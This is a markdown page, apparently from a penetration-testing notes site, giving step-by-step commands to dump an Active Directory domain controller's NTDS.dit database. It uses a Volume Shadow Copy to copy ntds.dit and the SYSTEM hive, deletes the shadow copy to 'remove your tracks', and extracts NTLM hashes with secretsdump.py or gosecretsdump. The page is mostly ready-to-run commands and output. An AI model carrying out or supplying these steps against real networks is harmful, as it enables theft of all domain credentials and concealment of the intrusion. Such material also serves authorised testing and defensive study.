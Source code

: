 ```yaml
---
title : "NTDS.dit Dump & Extract"
# pre : ' '
description : "How to dump NTDS.dit and extract the hashes with ShadowCopy and Secretsdump."
date : 2022-01-18T10:07:23+01:00
# hidden : true
# draft : true
weight : 0
# tags : ['']
---
```


## NTDS.dit Dump&Extract

On Domain Controller - create snapshot with `vssadmin.exe`.

### Step 1 - Create ShadowCopy

```plain
PS C:\> vssadmin.exe create shadow /for=C:
vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5
```

### Step 2 - Copy NTDS.dit and SYSTEM from ShadowCopy

NTDS:

```plain
PS C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\windows\ntds\ntds.dit c:\ntds.dit
```

SYSTEM:

```plain
PS C:\> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy5\Windows\system32\config\system c:\system
```

Or use `reg save`

```plain
reg SAVE HKLM\SYSTEM c:\SYSTEM
```

You can also use [ShadowCopyView](https://www.nirsoft.net/utils/shadow_copy_view.html) if you prefer a GUI.

{{%resources fa_icon_class="far fa-file-archive" pattern=".*(zip)"/%}}

### Step 3 - Remove your Tracks

```plain
PS C:\> vssadmin delete shadows /shadow={3d781b5d-e053-41ad-85d4-5b8f1ffb2d42}
```

## Extract hashes

It can happen that [secretsdump.py]({{< ref"secretsdump-py" >}}) keeps looping and throwing out hashes. In this case, or maybe even preferably, use [Gosecretsdump]({{< ref "gosecretsdump" >}}).

### Secretsdump.py

```plain
secretsdump.py -system SYSTEM -ntds ntds.dit -hashes lmhash:nthash LOCAL -outputfile extracted-hashes -just-dc-ntlm -user-status -history
```

### Gosecretsdump

```plain
./gosecretsdump -system SYSTEM -ntds NTDS.DIT -history -status -out hashes.log
```

### Example NTDS/SYSTEM

Example `NTDS.dit` and `SYSTEM` files zipped below.

{{%resources fa_icon_class="far fa-file" pattern=".*(NTDS.DIT-SYSTEM)"/%}}

## URL List

- [Stealthbits.com - Extracting Password Hashes from the Ntds.dit File](https://stealthbits.com/blog/extracting-password-hashes-from-the-ntds-dit-file/)
